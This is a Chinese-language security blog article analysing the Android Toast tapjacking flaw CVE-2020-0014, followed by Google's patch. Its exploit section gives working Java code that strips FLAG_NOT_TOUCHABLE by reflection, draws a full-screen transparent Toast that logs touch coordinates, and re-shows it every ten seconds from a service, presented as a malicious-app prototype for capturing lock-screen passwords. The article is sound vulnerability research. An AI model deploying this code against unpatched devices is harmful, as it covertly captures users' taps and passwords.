

# 通过安卓最新 Toast 漏洞进行 Tapjacking


                                阅读量   
                                **652444**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    
                                                                                            


[](./img/201052/t017cee9c7da333cfff.jpg)


## 01.漏洞简介

Toast 是安卓开发中常用的消息提示方法，在安卓 2020 年 2 月的安全性更新中修补了一个 Toast 相关的漏洞 `CVE-2020-0014` 。该漏洞可使恶意 App 通过构造一个可被点击的 Toast 视图来截获用户在屏幕上的操作，以达到搜集用户密码等敏感信息的目的。<br>
下文将对该漏洞原理做简要分析，并提供一种漏洞利用方式以及可能的攻击场景，测试环境为 Google pixel 2 Android 9 系统。


## 02.漏洞分析

要理解这个漏洞存因，首先要从 Toast 的实现来看一下一个 Toast 从构造到在手机屏幕弹出，经历了哪些过程。<br>
以 `Toast.makeText(context, text, duration).show()` 为例，将经历如下过程：

```
public static Toast makeText(Context context, CharSequence text, @Duration int duration) {
    return makeText(context, null, text, duration);
}

/**
  * Make a standard toast to display using the specified looper.
  * If looper is null, Looper.myLooper() is used.
  * @hide
  */
public static Toast makeText(@NonNull Context context, @Nullable Looper looper,
        @NonNull CharSequence text, @Duration int duration) {
    Toast result = new Toast(context, looper);

    LayoutInflater inflate = (LayoutInflater)
            context.getSystemService(Context.LAYOUT_INFLATER_SERVICE);
    View v = inflate.inflate(com.android.internal.R.layout.transient_notification, null);
    TextView tv = (TextView)v.findViewById(com.android.internal.R.id.message);
    tv.setText(text);

    result.mNextView = v;
    result.mDuration = duration;

    return result;
}
```

可以看到 makeText 方法会调用 Toast 构造函数生成一个实例，并构造一个 TextView 作为 Toast 的内容视图，再进一步看 Toast 的构造函数：

```
/**
  * Constructs an empty Toast object.  If looper is null, Looper.myLooper() is used.
  * @hide
  */
public Toast(@NonNull Context context, @Nullable Looper looper) {
    mContext = context;
    mTN = new TN(context.getPackageName(), looper);
    mTN.mY = context.getResources().getDimensionPixelSize(
            com.android.internal.R.dimen.toast_y_offset);
    mTN.mGravity = context.getResources().getInteger(
            com.android.internal.R.integer.config_toastDefaultGravity);
}
```

Toast 构造方法主要是实例化 Toast 的私有内部类 TN。再来看 TN 的构造方法：

```
TN(String packageName, @Nullable Looper looper) {
    // XXX This should be changed to use a Dialog, with a Theme.Toast
    // defined that sets up the layout params appropriately.
    final WindowManager.LayoutParams params = mParams;
    params.height = WindowManager.LayoutParams.WRAP_CONTENT;
    params.width = WindowManager.LayoutParams.WRAP_CONTENT;
    params.format = PixelFormat.TRANSLUCENT;
    params.windowAnimations = com.android.internal.R.style.Animation_Toast;
    params.type = WindowManager.LayoutParams.TYPE_TOAST;
    params.setTitle("Toast");
    params.flags = WindowManager.LayoutParams.FLAG_KEEP_SCREEN_ON
            | WindowManager.LayoutParams.FLAG_NOT_FOCUSABLE
            | WindowManager.LayoutParams.FLAG_NOT_TOUCHABLE;

    mPackageName = packageName;

    if (looper == null) {
        // Use Looper.myLooper() if looper is not specified.
        looper = Looper.myLooper();
        if (looper == null) {
            throw new RuntimeException(
                    "Can't toast on a thread that has not called Looper.prepare()");
        }
    }
    mHandler = new Handler(looper, null) {
        @Override
        public void handleMessage(Message msg) {
            switch (msg.what) {
                case SHOW: {
                    IBinder token = (IBinder) msg.obj;
                    handleShow(token);
                    break;
                }
                case HIDE: {
                    handleHide();
                    // Don't do this in handleHide() because it is also invoked by
                    // handleShow()
                    mNextView = null;
                    break;
                }
                case CANCEL: {
                    handleHide();
                    // Don't do this in handleHide() because it is also invoked by
                    // handleShow()
                    mNextView = null;
                    try {
                        getService().cancelToast(mPackageName, TN.this);
                    } catch (RemoteException e) {
                    }
                    break;
                }
            }
        }
    };
}
```

TN 对象构造函数主要对 mParams 进行了初始化，赋值了一些系列默认属性如 param.type 为 `TYPE_TOAST`，尤其还注意到 `params.flag` 属性的默认选项 `FLAG_NOT_TOUCHABLE`，这个选项设置后显示出的 Toast 不会接收任何触摸事件。此外还可看出 TN 对象是实际上的Toast控制者，负责实现处理Toast显示、隐藏、取消的方法。但是在当前例子中我们只关心 Toast 的显示，即 TN 对象的 show() 方法，show() 方法最终又会被走到 handleShow() 方法中:

```
public void handleShow(IBinder windowToken) {
    if (localLOGV) Log.v(TAG, "HANDLE SHOW: " + this + " mView=" + mView
            + " mNextView=" + mNextView);
    // If a cancel/hide is pending - no need to show - at this point
    // the window token is already invalid and no need to do any work.
    if (mHandler.hasMessages(CANCEL) || mHandler.hasMessages(HIDE)) {
        return;
    }
    if (mView != mNextView) {
        // remove the old view if necessary
        handleHide();
        mView = mNextView;
        Context context = mView.getContext().getApplicationContext();
        String packageName = mView.getContext().getOpPackageName();
        if (context == null) {
            context = mView.getContext();
        }
        mWM = (WindowManager)context.getSystemService(Context.WINDOW_SERVICE);
        // We can resolve the Gravity here by using the Locale for getting
        // the layout direction
        final Configuration config = mView.getContext().getResources().getConfiguration();
        final int gravity = Gravity.getAbsoluteGravity(mGravity, config.getLayoutDirection());
        mParams.gravity = gravity;
        if ((gravity &amp; Gravity.HORIZONTAL_GRAVITY_MASK) == Gravity.FILL_HORIZONTAL) {
            mParams.horizontalWeight = 1.0f;
        }
        if ((gravity &amp; Gravity.VERTICAL_GRAVITY_MASK) == Gravity.FILL_VERTICAL) {
            mParams.verticalWeight = 1.0f;
        }
        mParams.x = mX;
        mParams.y = mY;
        mParams.verticalMargin = mVerticalMargin;
        mParams.horizontalMargin = mHorizontalMargin;
        mParams.packageName = packageName;
        mParams.hideTimeoutMilliseconds = mDuration ==
            Toast.LENGTH_LONG ? LONG_DURATION_TIMEOUT : SHORT_DURATION_TIMEOUT;
        mParams.token = windowToken;
        if (mView.getParent() != null) {
            if (localLOGV) Log.v(TAG, "REMOVE! " + mView + " in " + this);
            mWM.removeView(mView);
        }
        if (localLOGV) Log.v(TAG, "ADD! " + mView + " in " + this);
        // Since the notification manager service cancels the token right
        // after it notifies us to cancel the toast there is an inherent
        // race and we may attempt to add a window after the token has been
        // invalidated. Let us hedge against that.
        try {
            mWM.addView(mView, mParams);
            trySendAccessibilityEvent();
        } catch (WindowManager.BadTokenException e) {
            /* ignore */
        }
    }
}
```

从 handleShow 的实现可以看到 Toast 的本质上是获取到系统的服务 WindowManager ，然后通过调用 WindowManager 的 addView 直接将视图显示出来。此处 WindowManager.addView 的第二个参数为 WindowManager.LayoutParams ，前面提到初始化的 `mParams.flags` 里包含一个选项 `FLAG_NOT_TOUCHABLE` 使得 `Toast` 在默认情况下不能接受触摸事件，但如果我们通过反射的方式，在 `Toast` 调用 `show()` 方法之前就将 `mParams.flags` 中的 `FLAG_NOT_TOUCHABLE` 选项清除掉，那我们便能获得一个可以监听触摸事件的的 `Toast` 了，这便是该漏洞的成因。


## 03.漏洞利用

了解的漏洞的成因，就可以开始编写漏洞利用，从 `Toast` 类出发，找到需要反射修改目标参数，如下所示：

```
public Class Toast {
    // --- snip --- //
    final TN mTN;
    // --- snip --- //
    private static class TN extends ITransientNotification.Stub {
        @UnsupportedAppUsage(maxTargetSdk = Build.VERSION_CODES.P)
        private final WindowManager.LayoutParams mParams = new WindowManager.LayoutParams();
        // --- snip --- //
    }
}
```

以下是弹出可监听触摸事件的Toast的关键代码：

```
public static void showToast(final Context context, int duration) {
  Toast mToast = null;
  if (mToast == null) {
      MyTextView view = new MyTextView(context);
      view.setText("nothing");
      view.setAlpha(0);
      mToast = Toast.makeText(context.getApplicationContext(), "", duration);
      mToast.setGravity(Gravity.TOP, 0, 0);
      mToast.setView(view);
  }

  try {
      Object mTN;
      mTN = getField(mToast, "mTN");        // Toast.mTN
      if (mTN != null) {
          Object mParams = getField(mTN, "mParams");    // TN.mParams
          if (mParams != null &amp;&amp; mParams instanceof WindowManager.LayoutParams) {
              WindowManager.LayoutParams params = (WindowManager.LayoutParams) mParams;
              //去掉FLAG_NOT_TOUCHABLE 使Toast可点击
              params.flags = WindowManager.LayoutParams.FLAG_KEEP_SCREEN_ON | WindowManager.LayoutParams.FLAG_NOT_FOCUSABLE;
              params.width = WindowManager.LayoutParams.MATCH_PARENT;
              params.height = WindowManager.LayoutParams.MATCH_PARENT;
          }
      }
  } catch (Exception e) {
      e.printStackTrace();
  }

  mToast.show();
}
//反射
private static Object getField(Object object, String fieldName) throws NoSuchFieldException, IllegalAccessException {
  Field field = object.getClass().getDeclaredField(fieldName);
  if (field != null) {
      field.setAccessible(true);
      return field.get(object);
  }
  return null;
}
```

主要方法就是通过反射的方式来修改 Toast 对象的TN对象的 mParams 属性，清除其 FLAG_NOT_TOUCHABLE 选项，并且将 Toast 布满屏幕，且设为全透明。<br>
其中 MyTextView 类为自定义视图类，重写了 dispatchTouchEvent 方法来打印触摸坐标信息的日志。

```
public class MyTextView extends androidx.appcompat.widget.AppCompatTextView {
    public MyTextView(Context context) {
        super(context);
    }

    @Override
    public boolean dispatchTouchEvent(MotionEvent ev) {
        float x = ev.getX();
        float y = ev.getY();
        Log.d("LittleLisk", String.format("x:%f, y:%f", x, y));
        return false;
    }
}
```

作为恶意 App 我们还需要设定一个弹出触摸信息记录 Toast 的时机。简单起见，我们启动一个service来周期性弹出全透明 Toast 以窃取用户触摸信息。

```
public final class LoopService extends Service {
    @Override
    public IBinder onBind(Intent intent) {
        return null;
    }
    @Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        ClickToast.showToast(this, Toast.LENGTH_LONG);
        new Thread(new Runnable() {
            @Override
            public void run() {
                Log.d("LittleLisk", "toast now: " + new Date().
                        toString());
            }
        }).start();
        AlarmManager manager = (AlarmManager) getSystemService(ALARM_SERVICE);
        int anHour = 10 * 1000; // 10秒
        long triggerAtTime = SystemClock.elapsedRealtime() + anHour;
        Intent i = new Intent(this, AlarmReceiver.class);
        PendingIntent pi = PendingIntent.getBroadcast(this, 0, i, 0);
        manager.set(AlarmManager.ELAPSED_REALTIME_WAKEUP, triggerAtTime, pi);
        return super.onStartCommand(intent, flags, startId);
    }
}
public class AlarmReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        Intent i = new Intent(context, LoopService.class);
        context.startService(i);
    }
}
```

以上便是一个简易的恶意 App 原型，下面我们再看下可能的攻击场景。


## 04.攻击场景

假设此刻我作为一个用户，正准备设置我的锁屏密码：

[](https://p4.ssl.qhimg.com/dm/576_1024_/t0111d1158f855c618a.png)

此时透明Toast弹出，并记录了我的触屏坐标，我的锁屏密码便可能被窃取

[](https://p2.ssl.qhimg.com/dm/1024_260_/t01b444b935c33787fc.png)

同样可以举一反三获取用户其他敏感信息，不失为一种较为严重的安全漏洞。


## 05.漏洞修补

首先来看下 google 官方的 patch。

```
diff --git a/services/core/java/com/android/server/wm/DisplayPolicy.java b/services/core/java/com/android/server/wm/DisplayPolicy.java
index 99a9db3..d4a4628 100644
--- a/services/core/java/com/android/server/wm/DisplayPolicy.java
+++ b/services/core/java/com/android/server/wm/DisplayPolicy.java
@@ -865,6 +865,8 @@
        if (canToastShowWhenLocked(callingPid)) {
                     attrs.flags |= WindowManager.LayoutParams.FLAG_SHOW_WHEN_LOCKED;
                 }
+                // Toasts can't be clickable
+                attrs.flags |= WindowManager.LayoutParams.FLAG_NOT_TOUCHABLE;
                 break;
         }
```

再定位到 `DisplayPolicy.java` 的函数 `adjustWindowParamsLw`：

```
public void adjustWindowParamsLw(WindowState win, WindowManager.LayoutParams attrs,
            int callingPid, int callingUid) {

        final boolean isScreenDecor = (attrs.privateFlags &amp; PRIVATE_FLAG_IS_SCREEN_DECOR) != 0;
        if (mScreenDecorWindows.contains(win)) {
            if (!isScreenDecor) {
                // No longer has the flag set, so remove from the set.
                mScreenDecorWindows.remove(win);
            }
        } else if (isScreenDecor &amp;&amp; hasStatusBarServicePermission(callingPid, callingUid)) {
            mScreenDecorWindows.add(win);
        }

        switch (attrs.type) {
            case TYPE_SYSTEM_OVERLAY:
            case TYPE_SECURE_SYSTEM_OVERLAY:
                // These types of windows can't receive input events.
                attrs.flags |= WindowManager.LayoutParams.FLAG_NOT_FOCUSABLE
                        | WindowManager.LayoutParams.FLAG_NOT_TOUCHABLE;
                attrs.flags &amp;= ~WindowManager.LayoutParams.FLAG_WATCH_OUTSIDE_TOUCH;
                break;
            case TYPE_DREAM:
            case TYPE_WALLPAPER:
                // Dreams and wallpapers don't have an app window token and can thus not be
                // letterboxed. Hence always let them extend under the cutout.
                attrs.layoutInDisplayCutoutMode = LAYOUT_IN_DISPLAY_CUTOUT_MODE_SHORT_EDGES;
                break;
            case TYPE_STATUS_BAR:

                // If the Keyguard is in a hidden state (occluded by another window), we force to
                // remove the wallpaper and keyguard flag so that any change in-flight after setting
                // the keyguard as occluded wouldn't set these flags again.
                // See {@link #processKeyguardSetHiddenResultLw}.
                if (mService.mPolicy.isKeyguardOccluded()) {
                    attrs.flags &amp;= ~WindowManager.LayoutParams.FLAG_SHOW_WALLPAPER;
                    attrs.privateFlags &amp;= ~WindowManager.LayoutParams.PRIVATE_FLAG_KEYGUARD;
                }
                break;

            case TYPE_SCREENSHOT:
                attrs.flags |= WindowManager.LayoutParams.FLAG_NOT_FOCUSABLE;
                break;

            case TYPE_TOAST:
                // While apps should use the dedicated toast APIs to add such windows
                // it possible legacy apps to add the window directly. Therefore, we
                // make windows added directly by the app behave as a toast as much
                // as possible in terms of timeout and animation.
                if (attrs.hideTimeoutMilliseconds &lt; 0
                        || attrs.hideTimeoutMilliseconds &gt; TOAST_WINDOW_TIMEOUT) {
                    attrs.hideTimeoutMilliseconds = TOAST_WINDOW_TIMEOUT;
                }
                // Accessibility users may need longer timeout duration. This api compares
                // original timeout with user's preference and return longer one. It returns
                // original timeout if there's no preference.
                attrs.hideTimeoutMilliseconds = mAccessibilityManager.getRecommendedTimeoutMillis(
                        (int) attrs.hideTimeoutMilliseconds,
                        AccessibilityManager.FLAG_CONTENT_TEXT);
                attrs.windowAnimations = com.android.internal.R.style.Animation_Toast;
                // Toast can show with below conditions when the screen is locked.
                if (canToastShowWhenLocked(callingPid)) {
                    attrs.flags |= WindowManager.LayoutParams.FLAG_SHOW_WHEN_LOCKED;
                }
                // Toasts can't be clickable
                attrs.flags |= WindowManager.LayoutParams.FLAG_NOT_TOUCHABLE;       // &lt;=========== patch
                break;
        }

        if (attrs.type != TYPE_STATUS_BAR) {
            // The status bar is the only window allowed to exhibit keyguard behavior.
            attrs.privateFlags &amp;= ~WindowManager.LayoutParams.PRIVATE_FLAG_KEYGUARD;
        }
    }
```

可以看到在处理 TYPE_TOAST 的分支中，flags 属性被`强制`加上了 FLAG_NOT_TOUCHABLE 标记，而 adjustWindowParamsLw() 方法在 WindowManager.addView() 方法的过程中，即发生在恶意 App 清除FLAG_NOT_TOUCHABLE 标记之后。故该补丁能强制使 Toast 在显示的时候处于不可点击状态，消除了风险。
